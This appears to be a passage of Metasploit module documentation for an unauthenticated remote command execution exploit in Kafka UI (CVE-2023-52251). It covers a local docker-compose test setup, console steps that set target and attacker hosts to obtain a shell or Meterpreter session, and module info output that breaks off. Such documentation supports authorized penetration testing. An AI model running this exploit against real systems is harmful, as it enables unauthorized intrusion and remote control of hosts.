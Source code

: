 ```yaml
    depends_on:
      - kafka
      - zookeeper
    environment:
      KAFKA_CLUSTERS_0_NAME: local
      KAFKA_CLUSTERS_0_BOOTSTRAPSERVERS: kafka:9092
      KAFKA_CLUSTERS_0_ZOOKEEPER: zookeeper:2181
      KAFKA_BROKERCONNECT: kafka:9092
      DYNAMIC_CONFIG_ENABLED: 'true'
      KAFKA_CLUSTERS_0_METRICS_PORT: 9997
```

* Run following command `docker-compose up -d` to install and run the Kafka ui and cluster environment.
* Your Kafka ui should be accessible on `http://localhost:8080` with an active Kafka cluster running.
* You can bring down the environment for a fresh start with the command `docker-compose down --volumes`.

You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix/Linux Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`.

```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > info

       Name: Kafka UI Unauthenticated Remote Command Execution via the Groovy Filter option.
     Module: exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251
   Platform: Unix, Linux
       Arch: cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-09-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  BobTheShopLifter and Thingstad

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix/Linux Command
      1   Linux Dropper

Check supported:
```